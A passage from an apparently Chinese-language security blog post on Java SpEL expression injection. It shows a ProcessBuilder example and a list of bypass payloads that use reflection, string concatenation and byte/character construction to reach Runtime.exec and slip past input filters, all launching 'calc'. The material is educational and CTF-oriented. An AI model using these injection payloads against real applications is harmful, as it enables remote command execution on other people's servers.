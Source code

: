 用 ProcessBuilder 来进行命令执行的代码如下

JAVA

```
public class ProcessBuilderBypass {  
    public static void main(String[] args) {  
        String spel = "new java.lang.ProcessBuilder(new String[]{\"calc\"}).start()";  
        ExpressionParser parser = new SpelExpressionParser();  
        Expression expression = parser.parseExpression(spel);  
        System.out.println(expression.getValue());  
    }  
}
```

![img](https://drun1baby.top/2022/09/23/Java-%E4%B9%8B-SpEL-%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5/ProcessBuilderBypass.png)

#### 基础 bypass

JAVA

```
// Bypass技巧
 
// 反射调用
T(String).getClass().forName("java.lang.Runtime").getRuntime().exec("calc")
 
// 同上，需要有上下文环境
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc")
 
// 反射调用+字符串拼接，绕过如javacon题目中的正则过滤
T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})
 
// 同上，需要有上下文环境
#this.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})
 
// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part1
// byte数组内容的生成后面有脚本
new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()
 
// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part2
// byte数组内容的生成后面有脚本
T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(99)))
```

#### JavaScript Engine Bypass

从 **ruilin** 师傅的文章学到还可以用js引擎(不知道能不能用颜文字或者其他 js 绕过的方法到这里，暂时没实验成功，测试成的师傅可以分享下).
